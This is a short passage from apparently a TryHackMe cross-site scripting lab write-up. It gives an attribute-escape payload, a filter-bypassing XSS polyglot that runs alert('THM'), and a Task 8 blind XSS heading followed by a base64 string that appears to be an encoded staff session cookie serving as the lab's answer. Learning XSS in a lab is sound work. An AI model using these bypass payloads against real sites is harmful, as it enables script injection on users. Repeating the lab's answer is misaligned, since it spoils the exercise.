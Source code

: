 Characters are filtered such as < and > we can get around this by using ``/images/cat.jpg" onload="alert('THM');`` as a payload.

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

##  Task 8 Box Example (Blind XSS) 

This will only work on the Tryhackme attack box.

c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ


